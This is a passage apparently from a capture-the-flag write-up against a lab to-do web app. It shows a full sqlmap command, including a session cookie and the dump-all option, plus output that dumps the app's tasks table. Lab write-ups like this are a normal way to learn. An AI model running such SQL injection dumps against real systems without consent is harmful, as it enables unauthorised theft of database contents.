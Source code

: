 ```log
[17:08:28] [INFO] fetched data logged to text files under '/home/dnorhoj/.local/share/sqlmap/output/todolist.hkn'
[17:08:28] [WARNING] your sqlmap version is outdated

[*] ending @ 17:08:28 /2024-05-09/
```

It found an SQL injection that it can explot. Let's just dump the entire database!

```sh
sqlmap -u 'http://todolist.hkn/settings/edit/*' -H 'Cookie: session=.eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvEL4_p2QvjQ.ZjzkqQ.FqwaLPudBvqcbQhJNda3QZPcRzo' --level 5 --risk 3 --dump-all --threads 10
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.10#pip}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:09:54 /2024-05-09/

...

Database: <current>
Table: tasks
[12 entries]
+----+---------+--------+----------------------------------------------------------------------------+
| id | user_id | status | description                                                                |
+----+---------+--------+----------------------------------------------------------------------------+
| 1  | 1       | 1      | Implement app                                                              |
| 2  | 1       | 0      | Improve security                                                           |
| 3  | 2       | 0      | Find flags                                                                 |
| 4  | 7       | 0      | Schedule a dentist appointment for a check-up                              |
| 5  | 4       | 0      | Research and book accommodations for an upcoming trip                      |
| 6  | 7       | 0      | Create a meal plan for the week and grocery shop accordingly               |
| 7  | 7       | 0      | Review and update resume or CV                                             |
| 8  | 8       | 0      | Organize and declutter workspace                                           |
| 9  | 3       | 0      | Research and enroll in an online course to learn a new skill               |
| 10 | 6       | 0      | Go for a 30-minute walk                                                    |
| 11 | 3       | 0      | Start a journal to jot down thoughts and reflections each day              |
| 12 | 3       | 0      | Sort through your email inbox and unsubscribe from unnecessary newsletters |
+----+---------+--------+----------------------------------------------------------------------------+
```